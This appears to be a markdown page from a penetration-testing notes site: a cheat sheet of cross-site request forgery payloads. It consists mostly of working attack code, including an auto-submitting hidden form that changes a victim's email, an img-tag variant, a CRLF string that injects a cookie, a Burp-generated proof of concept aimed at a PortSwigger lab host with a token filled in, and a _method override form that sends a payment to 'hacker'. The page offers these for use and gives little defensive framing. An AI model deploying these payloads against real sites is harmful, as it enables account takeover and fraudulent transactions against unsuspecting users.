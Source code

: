 ```yaml
---
title: "CSRF"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



- Free Poc Tool : 
https://security.love/CSRF-PoC-Genorator/

## Basic CSRF 

```sh
<html> 
<body> 
<form action="https://vulnerable-website.com/email/change" method="POST"> <input type="hidden" name="email" value="pwned@evil-user.net" /> </form> 
<script> document.forms[0].submit(); </script> 
</body> 
</html>
```

- Even possible to do so : 

```sh
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

- If you have an input that is reflected as cookie , you can try to do CRLF attack to inject a cookie to the victim like this : 
```sh
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

- It's possible to combine to request this way for your POC : 
```sh
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6b00eb049ba97a82a8f11d00dc00ea.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hopddde2&#64;test&#46;fr" />
      <input type="hidden" name="csrf" value="rw096v1qAyqMjnPQNuFoOTr9WovKHmtn" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a6b00eb049ba97a82a8f11d00dc00ea.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=j2VuedM3I17WVZZSmL1VSsrL2LsUqZv9%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```

- Method Overwrite Symphony : 
Even with if `get`is not allowed you can still override with _method
```sh
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
<input type="hidden" name="_method" value="GET">
<input type="hidden" name="recipient" value="hacker">
<input type="hidden" name="amount" value="1000000">
</form>
```
`Other frameworks support a variety of similar parameters.`  